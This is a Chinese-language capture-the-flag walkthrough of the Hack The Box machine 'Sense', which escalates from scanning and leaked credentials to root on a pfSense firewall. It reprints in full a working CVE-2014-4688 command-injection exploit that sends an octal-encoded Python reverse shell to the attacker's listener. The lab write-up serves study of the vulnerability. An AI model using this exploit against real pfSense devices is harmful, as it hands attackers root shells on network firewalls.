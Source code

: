 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Sense"
linktitle: "Sense"
date: 2022-09-13T09:43:40+08:00
type: book
summary: ""
---
```



### nmap扫描

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.60
```

发现80，443

![](image/image_qZBfUmK1Fl.png)

### pfsense是个开源的防火墙和路由器功能的设备

![](image/image_6vAitsrrQN.png)

简单尝试了下&#x20;

```bash
admin/admin,root/root,test/test,user/user,pfsense/pfsense,admin/pfsense
```

没登录成功，

看了下服务response返回 `Server: lighttpd/1.4.35`

搜了下发现

[https://www.cvedetails.com/cve-details.php?t=1\&cve\_id=CVE-2014-2323](https://www.cvedetails.com/cve-details.php?t=1\&cve_id=CVE-2014-2323 "https://www.cvedetails.com/cve-details.php?t=1\&cve_id=CVE-2014-2323")

![](image/image_O1fxZkmbpl.png)

经过验证发现不包括 `lighttpd/1.4.35` 版本

![](image/image__mZYyzzeqa.png)

用dirbuster扫描一下web路径

![](image/image_5PU7nDQd_G.png)

扫到一个安全日志信息，说有一个漏洞没修。

[https://10.10.10.60/changelog.txt](https://10.10.10.60/changelog.txt "https://10.10.10.60/changelog.txt")

![](image/image_1lF-LJuKvZ.png)

### 继续扫描发现 [system-users.txt](https://10.10.10.60/system-users.txt "system-users.txt")

![](image/image_3vWFn4RX5m.png)

尝试登录 `Rohit/pfsense`  还是登不上

最后发现用户密码是 `rohit/pfsense`

![](image/image_S3QtoF_6KF.png)

这里看到pfsense的版本是

```bash
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```

搜了下相关版本的漏洞

![](image/image_DpiVUZwouh.png)

### 漏洞利用

[**https://www.exploit-db.com/exploits/43560**](https://www.exploit-db.com/exploits/43560 "https://www.exploit-db.com/exploits/43560")

CVE-2014-4688

![](image/image_jFK3Qoq712.png)

执行脚本

```bash
python3 CVE-2014-4688.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 23333 --username rohit --password pfsense
```

```python
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date:2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
  payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
  ('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
  ('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
  ('Accept-Language', 'en-US,en;q=0.5'),
  ('Referer',login_url),
  ('Connection', 'close'),
  ('Upgrade-Insecure-Requests', '1'),
  ('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
  login_page = client.get(login_url, verify=False)

  index = login_page.text.find("csrfMagicToken")
  csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
  print("Could not connect to host!")
  exit()

# format login variables and data
if csrf_token:
  print("CSRF token obtained")
  login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
  login_data = collections.OrderedDict(login_data)
  encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
  login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
  print("No CSRF token!")
  exit()

if login_request.status_code == 200:
    print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
    try:
      exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
      if exploit_request.status_code:
        print("Error running exploit")
    except:
      print("Exploit completed")
            
```

执行成功

![](image/image_hG2Cv8nEup.png)

### 直接是root权限

![](image/image_DpOjJOTJFK.png)

### 也可以通过msf找到exp

`searchsploit pfsense` 或者 `search pfsense`

![](image/image_LyKFJuA-wQ.png)

![](image/image_j94DHTrrxo.png)

![](image/image_PFszwS7RRe.png)
